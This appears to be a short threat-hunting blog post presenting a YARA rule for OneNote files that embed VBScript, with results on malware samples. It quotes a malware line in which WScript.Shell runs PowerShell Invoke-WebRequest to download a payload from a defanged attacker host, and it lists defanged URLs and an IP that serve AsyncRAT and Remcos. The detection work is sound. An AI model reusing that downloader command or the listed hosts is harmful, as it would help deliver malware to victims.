

# Day 4 | Onenote files with Scripts

Todays yara rule is a continution from yesterday. To start I looked at the the malware sample `pdf172.one` from the article [Trojanized OneNote Documents Lead to Formbook Malware](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/trojanized-onenote-document-leads-to-formbook-malware/?&web_view=true):

The sections I used to guide my yara rules were:
```
<job id="code"><script language="VBScript">
```
and
```
CreateObject("WScript.Shell").Run "cmd /c powershell Invoke-WebRequest -Uri http[:]//a0745450[.]xsph[.]ru/INVESTMENT.one -OutFile $env:tmp\invoice.one
```

I added in the yara keyword `nocase` the prevent easy rule evasion.

# Yara Rule

Here's the Yara rule that I created to detect OneNote files with script usage!

```
rule sus_onenote_scripting {
  meta:
    author = "Colin Cowie"
    description = "Detects OneNote files with script usage"
  strings:
  	$file_header = { E4 52 5C 7B 8C D8 A7 4D AE B1 53 78 D0 29 96 D3 }
    $vbs = "VBScript" nocase
    $wscript = "WScript.Shell"  nocase
    $script_tag ="<script " nocase
  condition:
  (
    $vbs or $wscript or $script_tag
  ) and
	$file_header at 0
}
```

# Results

### Intresting Result 1 
Filename: `Invoice_32732.one`

SHA1: `126cd120825f7e1f6e0d2f1aac718c7220f2a9d1`

VT Upload Date: `2023-01-09 19:14:37 UTC	`	

Functionality: Download's additonal malware from: `stnicholaschurch[.]ca/Invoice[.]one` (ASyncRat)


### Intresting Result 2
Filename: `Architectural Ground & Floor Drawing.one`

SHA1: `db1568f09034158dd384c9db6ae3cebeac2f02d8`

VT Upload Date: `2023-01-11 22:23:22 UTC	`	

Functionality: 

1. Downloads encoded VBS script from `194.26.192[.]233/summerTime.vbs`
2. Performs request to `http[:]//194.26.192[.]233/summerTime.txt`
3. The response is a base64 encoded and reversed executable binary (The payload is **Remcos** information stealer)



# References

- https://yara.readthedocs.io/en/stable/writingrules.html
- https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/trojanized-onenote-document-leads-to-formbook-malware/